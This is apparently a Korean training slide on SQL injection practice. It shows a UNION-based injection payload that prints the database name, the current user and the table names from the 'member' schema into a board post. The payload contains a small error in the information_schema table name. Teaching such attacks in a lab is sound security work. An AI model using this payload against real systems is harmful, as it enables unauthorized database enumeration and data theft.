

4. SQL 공격 실습 – 쿼리문 삽입으로 각 테이블 명 조회
SQL 쿼리문
‘union select 1,database(),3,4,user(),(select group_concat(table_name) from information_schema_table where table_schema=‘member’),7,8,9#’
을 삽입하여 DB에 저장되어 있는 각
테이블 명을 조회하여 게시글에 출력합니다.